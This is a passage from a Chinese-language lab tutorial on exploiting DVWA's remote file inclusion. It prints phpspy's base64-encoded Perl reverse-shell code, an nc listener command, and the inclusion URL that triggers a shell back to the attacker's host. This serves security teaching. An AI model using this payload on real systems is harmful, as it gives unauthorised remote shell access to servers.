 ```php
$back_connect="IyEvdXNyL2Jpbi9wZXJsDQp1c2UgU29ja2V0Ow0KJGNtZD0gImx5bngiOw0KJHN5c3RlbT0gJ2VjaG8gImB1bmFtZSAtYWAiO2Vj". 
"aG8gImBpZGAiOy9iaW4vc2gnOw0KJDA9JGNtZDsNCiR0YXJnZXQ9JEFSR1ZbMF07DQokcG9ydD0kQVJHVlsxXTsNCiRpYWRkcj1pbmV0X2F0b24oJHR". 
"hcmdldCkgfHwgZGllKCJFcnJvcjogJCFcbiIpOw0KJHBhZGRyPXNvY2thZGRyX2luKCRwb3J0LCAkaWFkZHIpIHx8IGRpZSgiRXJyb3I6ICQhXG4iKT". 
"sNCiRwcm90bz1nZXRwcm90b2J5bmFtZSgndGNwJyk7DQpzb2NrZXQoU09DS0VULCBQRl9JTkVULCBTT0NLX1NUUkVBTSwgJHByb3RvKSB8fCBkaWUoI". 
"kVycm9yOiAkIVxuIik7DQpjb25uZWN0KFNPQ0tFVCwgJHBhZGRyKSB8fCBkaWUoIkVycm9yOiAkIVxuIik7DQpvcGVuKFNURElOLCAiPiZTT0NLRVQi". 
"KTsNCm9wZW4oU1RET1VULCAiPiZTT0NLRVQiKTsNCm9wZW4oU1RERVJSLCAiPiZTT0NLRVQiKTsNCnN5c3RlbSgkc3lzdGVtKTsNCmNsb3NlKFNUREl".
"OKTsNCmNsb3NlKFNURE9VVCk7DQpjbG9zZShTVERFUlIpOw=="; 
cf('/tmp/.bc',$back_connect); 
$res = execute(which('perl')." /tmp/.bc $yourip $yourport &"); 


?> 
```

该程序中有这两个变量：

```
$yourip = "192.168.122.101"; 
$yourport = '1111'; 
```

yourip 是当前设备的 IP 地址，yourport 可以随便设置，主要不要冲突即可。

> **注意**：这是从 phpspy 中的截取的反弹 shell 的代码

然后使用 `:wq` 保存并退出

接着我们使用 nc 命令来监听我们刚刚所设置的端口：

```
nc -nvlp 1111
```

我们会看到终端中有 `listening on [any] 1111` 的提示，若说明我们正在监听这个端口，只要有请求进来我们就会连接上

然后我们在 firefox 中访问这样的 URL：

```
http://192.168.122.102/dvwa/vulnerabilities/fi/?page=http://192.168.122.101/test.txt
```

页面上我们感觉似乎没有什么变化，但是返回我们的终端可以看到：

![show-reverse-shell](../imgs/wm_106.png)
